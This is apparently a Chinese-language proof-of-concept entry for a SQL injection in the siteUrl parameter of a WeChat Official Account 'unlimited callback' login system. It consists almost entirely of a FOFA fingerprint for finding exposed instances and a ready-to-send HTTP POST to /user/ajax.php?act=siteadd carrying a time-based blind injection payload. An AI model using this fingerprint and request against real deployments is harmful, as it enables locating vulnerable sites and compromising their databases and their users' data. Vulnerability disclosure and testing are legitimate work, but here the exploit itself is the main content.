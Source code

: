 # 公众号无限回调系统接口siteUrl存在SQL注入漏洞

**微信公众平台无限回调系统是一个适用于H5游戏，H5网站，一切需要公众号登录接口的H5网站，且附带登录注册功能，接口/includes/class/user.class.php GetUrl方法存在SQL注入漏洞 **

## fofa

```yaml
"mb-5 web-font-desc"
```

## poc

```yaml
POST /user/ajax.php?act=siteadd HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 27

siteUrl=';select sleep(5)#'
```

![image-20240712202339795](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407122023875.png)